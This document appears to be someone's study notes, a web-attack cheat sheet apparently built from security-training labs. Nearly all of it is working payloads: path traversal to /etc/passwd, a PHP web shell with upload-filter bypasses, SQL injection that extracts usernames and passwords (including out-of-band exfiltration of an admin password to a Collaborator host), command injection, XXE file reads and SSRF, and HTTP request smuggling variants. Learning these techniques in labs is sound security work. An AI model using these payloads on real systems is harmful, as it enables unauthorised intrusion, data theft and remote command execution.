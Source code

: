 # notes
## **PATH TRAVERSAL**
Default way:

>GET /image?filename=../../../../../../../../etc/passwd

Url-Encoded:

>%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64

Way, when `../` erased:

>....//....//....//....//

When filename should start with some string 

>/var/www/images/../../../../../etc/passwd

When server URL-decode of the input before using it.
>..%252f..%252f..%252fetc/passwd

When server require ending, like `png` , use null bytes, for example
>../../../etc/passwd%00.png





## **FILE UPLOAD**
Default way:
><?php echo system($_GET['command']); ?>

Flawed file type validation:
Change content type to image/jpeg

Script execution can be disabled in a separate folder. This can be bypassed with the help of path traversal:
Instead of 
`Content-Disposition: form-data; name="avatar"; filename="exploit.php"`
  We can use
`Content-Disposition: form-data; name="avatar"; filename="../exploit.php"`
  Or obfuscated versions


### **SQL INJECTION**

Login Bypass:

`administrator'--`

#Substring:

`SUBSTRING('foobar', 4, 2)`
Oracle `SUBSTR('foobar', 4, 2)`

#Simle WAF Bypass by encoding:

`<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>`

`<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>`


### **UNION SQL INJECTION**

Simple Data Retrieve (request `SELECT name, description FROM products WHERE category = 'Gifts'`):

`' UNION SELECT username, password FROM users--`

**Oracle add `from dual`**

### Determine number of columns:

`' ORDER BY 3--`
Second method, allow to determine type of data in column:

`' UNION SELECT NULL,NULL,NULL--`/`' UNION SELECT 'a',NULL,NULL,NULL--`

### Concatenation of strings:

`' UNION SELECT username || '~' || password FROM users--`
Mysql `CONCAT('foo','bar')` or `'foo' 'bar'` note space.

## **BLIND SQL INJECTION**

### conditional based

`' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`

### error based

`' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`

`'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

### visible errors based

`' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

### time based

`'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

### out of band interaction

`'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`


## **Command Injection**

### Simple

`1|whoami`

### time delays

`email=x||ping+-c+10+127.0.0.1||`

### out of band interaction

`email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||`

## **XXE**

### retrieve files

` <?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck> `

### by xinclude

`<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>`


### ssrf

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`


# HTTP request smuggling - writing one request so that the server thinks that it is 2 different.
It uses 2 headers. `Content-Length: x` and `Transfer-Encoding: chunked`. **It works only in HTTTP/1.1**.


## CL.TE
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```
Front-end server support only Content-Length header, backend support Transfer-Encoding. Front pass all as 1 request, backend split into two and read second one as new request, which start from
word SMUGGLED, as method. And next request passed to server will be added to this, and will arise error.

## TE.CL
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0


````
Front-end server support Transfer-Encoding header, backend support only Content-Length. Front pass all as 1 request, backend split into two and read second one as new request, which start from
word SMUGGLED, as method. And next request passed to server will be added to this, and will arise error.

## TE.TE
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 8
Transfer-Encoding: cow
Transfer-Encoding: chunked

0


G
```
Front-end server support Transfer-Encoding, but can be bypassed, to be readed backend server.
Bypass methods:
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```
